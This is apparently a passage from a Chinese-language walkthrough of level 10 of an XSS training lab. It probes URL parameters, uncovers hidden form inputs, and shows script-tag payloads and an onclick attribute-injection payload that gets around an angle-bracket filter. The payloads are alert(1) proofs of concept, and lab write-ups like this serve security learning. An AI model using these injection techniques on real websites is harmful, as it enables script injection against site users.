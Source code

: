 

## 10.

没有搜索框，但是可以发现URL

```
?keyword=well%20done!
```



随便写几个上去测试一下

```
?keyword=<script>alert(1)</script>
```



发现它好像没有在元素里面

```
<h2 align=center>没有找到和&lt;script&gt;alert(1)&lt;/script&gt;相关的结果.</h2><center>
```

再看看源码

发现有个from，但是被hidden了

```
<form id=search>
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
</form>
```

那我们就一起传值看看效果

```
?keyword=&t_link=1&t_history=2&t_sort=3
```



发现t_sort被传入了

```
?keyword=&t_link=1&t_history=2&t_sort="><script>alert(1)</script>
```



输入发现

```
<input name="t_sort"  value=""scriptalert(1)/script" type="hidden">
```



说明过滤了><



```
?t_sort=" οnclick="alert(1)" type=" "
```
